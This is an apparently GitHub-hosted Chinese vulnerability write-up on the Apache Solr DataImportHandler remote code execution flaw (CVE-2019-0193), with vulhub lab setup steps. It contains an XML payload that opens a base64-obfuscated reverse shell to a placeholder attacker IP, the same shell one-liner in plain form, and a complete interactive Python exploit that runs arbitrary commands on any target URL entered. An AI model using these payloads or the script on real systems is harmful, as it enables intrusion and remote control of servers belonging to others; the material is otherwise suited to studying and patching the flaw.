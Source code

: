```yaml
---
title: Apache Solr 远程执行漏洞 CVE-2019-0193
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache Solr 远程执行漏洞 CVE-2019-0193

## 漏洞描述 

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

## 影响版本

> [!NOTE]
>
> Apache Solr < 8.2.0

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![](/img/20210924015341410720.png)

## 漏洞复现

点击刚刚创建的test进入调试

![](/img/20210924015341627913.png)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```



注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

>[!NOTE]
>
>bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  
>
>直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell

点击EXecute执行代码

![](/img/20210924015342995026.png)

![](/img/20210924015343199908.png)

成功反弹shell

## 漏洞利用POC

> [!NOTE]
>
> POC不支持反弹shell，如需反弹shell，请按如上步骤反弹shell

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    mode_url = target_url + "/solr/" + core_name + "/admin/mbeans?cat=QUERY&wt=json"
    response = requests.request("GET", url=mode_url, timeout=20)
    mode = dict(dict(list(json.loads(response.text)["solr-mbeans"])[1])['/dataimport'])['class']
    if "org.apache.solr.handler.dataimport.DataImportHandler" in mode:
        print("\033[32m[o] 目标Url,Dataimport模块开启\033[0m")
    else:
        print("\033[31m[x] 目标Url,Dataimport模块未开启\033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vuln_url = target_url + "/solr/" + core_name + "/dataimport"

    headers = {
        'Host': target_url,
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        'Accept': "application/json, text/plain, */*",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "zip, deflate",
        'Referer': "" + target_url + "/solr/",
        'Content-type': "application/x-www-form-urlencoded",
        'X-Requested-With': "XMLHttpRequest",
        'Content-Length': "1007",
        'Connection': "close"
    }

    payload = """
        command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test&name=dataimport&dataConfig=
        <dataConfig>
          <dataSource type="URLDataSource"/>
          <script><![CDATA[
                  function poc(row){
         var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("%s").getInputStream()));
        var result = [];
        while(true) {
        var oneline = bufReader.readLine();
        result.push( oneline );
        if(!oneline) break;
        }
        row.put("title",result.join("\\n\\r"));
        return row;
        }
          ]]></script>
                <document>
                     <entity name="entity1"
                             url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                             processor="XPathEntityProcessor"
                             forEach="/RDF/item"
                             transformer="script:poc">
                                <field column="title" xpath="/RDF/item/title" />
                     </entity>
                </document>
        </dataConfig>
        """ % cmd

    response = requests.request("POST", url=vuln_url, data=payload, headers=headers, timeout=30)
    try:
        get_message = list(json.loads(response.text)["documents"])[0]
        message = dict(get_message)['title'][0]
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m", message)
    except:
        print("\033[31m[x] 代码执行失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        else:
            POC_3(target_url, core_name, cmd)
```

![](/img/20210924015343342922.png)

## 参考文章

[apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)